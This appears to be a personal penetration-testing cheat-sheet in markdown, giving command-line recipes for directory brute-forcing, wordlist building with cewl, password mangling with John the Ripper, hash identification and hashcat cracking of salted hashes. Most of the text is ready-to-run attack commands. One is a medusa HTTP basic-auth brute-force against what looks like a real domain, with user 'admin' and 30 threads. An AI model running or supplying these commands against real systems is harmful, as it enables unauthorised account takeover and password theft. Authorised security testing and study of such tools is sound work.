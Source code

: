 ## UTILITIES
### dirbuster: brute-force website directories.
- find a login page
- generate word via `cwel`  
 ```cewl www.targetdomain.com -m 6 -w /root/target-dmoain-cewl.txt```
- use `john the ripper` to create mangled passwords list  
``` john --wordlist=/root/target-dmoain-cewl.txt --rules --stdout > mutated.txt ```
- pass the new password file to `medusa` for HTTP basci-auth brute force attach  
```  medusa -h fiprealty.com -u admin -P passwords.txt -M http -n 81 -m DIR:/admin -T 30  ```

### hash-identifier
Locate a password hash, and use `hash-identifier` to reveal the source/type.
> won't always work
- if the hash originates from a known app, you can investigate the app's source code to find how it was generated.
The source code might reveal that the hash was generated by `sha1` + 10 random digits...

### oclHashcat-plus
salt + hashed password cracker
- generate a passwords file
- make sure the 'split' the `hash:salt`, so the proggram can identify it
```
#salt of 10 digits
kjhgldskjhgbkjfgbhfdgbsdfg:yu34gy59p1
khgsjdgk865kn9gjrkjtyo9ujg:y689rkjhty
```
- use your `giant passwords list` (actual hashes:slat list) againt the new (wish to hack) list.
```
./hashcat64.bin -m 500 hash-and-salted-passwords.txt my-big-hashes-salted-ditionary.dict
```
- for more information: 
 - https://uwnthesis.wordpress.com/2013/08/07/kali-how-to-crack-passwords-using-hashcat/
 - https://uwnthesis.files.wordpress.com/2013/08/hashtypes.png?w=497&h=333

## WORDLISTS
- /usr/share/dirbuster/wordlists/directory-list....

